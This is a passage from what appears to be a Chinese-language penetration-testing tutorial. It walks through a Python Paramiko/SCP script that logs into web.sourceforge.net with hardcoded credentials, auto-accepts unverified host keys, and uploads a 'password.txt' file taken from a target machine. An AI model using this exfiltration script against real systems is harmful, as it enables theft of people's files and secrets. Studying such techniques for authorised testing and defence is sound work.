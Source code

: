 让我们来看看剩下的脚本：

```
...
ssh_client = paramiko.SSHClient() # creating an ssh_client instance using paramiko sshclient class

'''
when you connect to an ssh server at the first time, if the ssh server keys are not stores on the client side, you will get a warning
message syaing that the server keys are not chached in the system and will prompt whether you want to accept those keys.

since we do an automation on the target side, we inform paramiko to accept these keys for the first time without interrupting the session or
prompting the user and this done via > set_missing_host_key_policy(paramiko.AutoAddPolicy()
'''

ssh_client.set_missing_host_key_policy(paramiko.AutoAddPolicy())

ssh_client.connect("web.sourceforge.net", username="hkhrais", password="[123justyouandme]") #Authenticate ourselves to the sourceforge server
print '[+] Authenticating against web.sourceforge.net ...' #please use your own login credentials :D

scp = scp.SCPClient(ssh_client.get_transport()) #after a successful authentication the ssh session id will be passed into SCPClient function

scp.put('C:/Users/Hussam/Desktop/password.txt') # upload to file( in this case it's password.txt) that we want to grab from the target to /root directory
print '[+] File is uploaded '

scp.close()
print '[+] Closing the socket'
```

因此，我们的脚本将从使用`paramiko.SSHClient()`类创建一个`ssh_client`实例开始。现在，当您第一次连接到 SSH 服务器并且如果 SSH 服务器密钥未存储在客户端端，您将收到一个警告消息，指出服务器密钥未缓存在系统中；它将提示您接受这些密钥。

打开 PuTTY 软件，使用`web.sourceforge.net`作为主机名，端口`22`，协议为 SSH 连接到 SourceForge 服务器。现在，点击打开：
